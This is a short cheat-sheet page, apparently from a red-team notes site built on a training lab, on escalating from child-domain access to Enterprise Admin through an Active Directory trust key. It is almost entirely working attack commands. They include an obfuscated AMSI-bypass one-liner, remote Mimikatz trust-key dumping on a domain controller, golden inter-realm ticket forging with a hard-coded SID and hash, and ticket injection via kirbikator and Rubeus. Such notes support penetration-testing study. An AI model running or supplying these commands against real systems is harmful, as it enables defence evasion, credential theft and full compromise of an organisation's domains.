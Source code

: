 ```yaml
---
layout: page
title: "# Domain access, PrivEsc to EntAdmin using Domain Trustkey"
permalink: /ad_cheatsheets/domain_access_privesc_to_entadmin_with_trustkey
---
```


# Domain access, PrivEsc to EntAdmin using Domain Trustkey

## Getting Trust Key

```powershell
powershell -ep bypass

$sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local

Enter-PSSession -Session $sess

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

exit

Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess

Enter-PSSession -Session $sess

Invoke-Mimikatz -Command '"lsadump::trust /patch"'

```

W**ith Mimikatz only:**

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Create inter-realm TGT

```powershell

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:f052addf1d43f864a7d0c21cbce440c9 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```

## Create TGS for CIFS Service

```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

## Present TGS to Target Service - kirbikator

```powershell
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirb
```

## Present TGS to Target Service - Rebeus

```powershell
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi/service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
```

## Resources

[Escalate Domain privileges](https://medium.com/redteam-blueteam-series/escalate-domain-privileges-e53ae4027856)
